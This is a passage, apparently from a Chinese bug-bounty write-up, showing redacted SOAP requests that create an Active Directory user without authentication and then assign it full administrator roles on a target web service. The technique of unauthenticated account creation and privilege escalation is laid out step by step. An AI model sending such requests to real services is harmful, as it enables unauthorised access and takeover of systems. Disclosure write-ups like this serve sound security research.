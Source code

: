 1. ModificaInActiveDirectory  
  
  
此方法似乎用于在AD中创建用户，带有***Crea***=true标志。我针对用户ID（999）测试并收到确认。  
  
```
POST /**/**/** HTTP/1.1
Host: target.com
Content-Type: text/xml; charset=utf-8
Content-Length: 397
<?xml version="1.0" encoding="utf-8"?>
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:web="http://**.**/">
  <soapenv:Header/>
  <soapenv:Body>
    <web:Mo***ActiveDirectory>
  <id**>999</id**>
  <**Cr**>true</**bC**>
  <tokenWebLogon></tokenWebLogon>
</web:Mo***ActiveDirectory>
  </soapenv:Body>
</soapenv:Envelope>
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/iaASKxS11kaR4rCIXQnMOxLIs9MxuvRwHghoRVkAIMjAgjULx8larHd635nwNbFYDXqA9IyM8w8NibWGTcs9DXwQ/640?wx_fmt=png&from=appmsg "")  
  
  
服  
务器响应：  
  
```
<return>true</return>
```  
  
意味着后端确认并可能在Active Directory中注册了我的用户（ID: 999）。  
  
  
2. 通过SetProfessionalFunctions分配权限  
  
  
这是真正的胜利。该函数接受用户ID和角色ID列表（iFun**1到iFun**4）。我们将所有角色ID设为1，模拟完全管理员权限。  
  
```
POST /***/***/*** HTTP/1.1
Host: target.com
Content-Type: text/xml; charset=utf-8
Content-Length: 465
<?xml version="1.0" encoding="utf-8"?>
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:web="http://**.**/">
  <soapenv:Header/>
  <soapenv:Body>
    <web:I***li>
  <i**>999</***>
  <i**>1</i**>
  <i**>1</i**>
  <i**3>1</i**3>
  <i**>1</i**4>
</web:I***i>
  </soapenv:Body>
</soapenv:Envelope>
```  
  
